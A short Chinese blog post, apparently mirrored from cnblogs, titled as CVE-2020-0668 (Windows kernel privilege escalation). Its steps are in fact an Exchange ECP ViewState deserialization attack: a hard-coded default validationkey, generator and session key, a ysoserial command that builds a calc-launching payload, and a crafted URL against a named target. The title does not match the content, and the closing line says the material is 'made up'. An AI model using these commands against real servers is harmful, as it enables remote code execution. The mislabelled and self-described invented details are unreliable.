


# CVE-2020-0668(Microsoft Windows Kernel 权限提升漏洞) - mrhonest - 博客园

> 原文：[`www.cnblogs.com/mrhonest/p/14306463.html`](https://www.cnblogs.com/mrhonest/p/14306463.html)

*   目标:mail.sync.net

# 1.需要四个参数，分别为：

```
--validationkey = CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF（默认，漏洞产生原因）
--validationalg = SHA1（默认，漏洞产生原因）
--generator=B97B4E27（基本默认）
--viewstateuserkey = ASP.NET_SessionId（手工获取，变量，每次登陆都不一致）
	获取方式:普通账号登录 https://ip/ecp/default.aspx	viewstateuserkey 位于 default.aspx-->Headers-->ASP.NET_SessionId 中：

99566ec5-d60166d1477410aa-4576-a8b9- 
```



# 2.生成序列化数据,(弹个计算器)

```
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "cmd /c calc.exe" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="B97B4E27" --viewstateuserkey="99566ec5-d60166d1477410aa-4576-a8b9-" --isdebug –islegacy 
```



# 3.序列化数据 url 编码:


# 4.构造链接并访问:

```
https://mail.sync.net/ecp/default.aspx?__VIEWSTATEGENERATOR=B97B4E27&__VIEWSTATE= 
```


目标机器上弹出计算器,此处无图, 因为上面的东西都是我瞎编的瞎编的瞎编的瞎编的瞎编的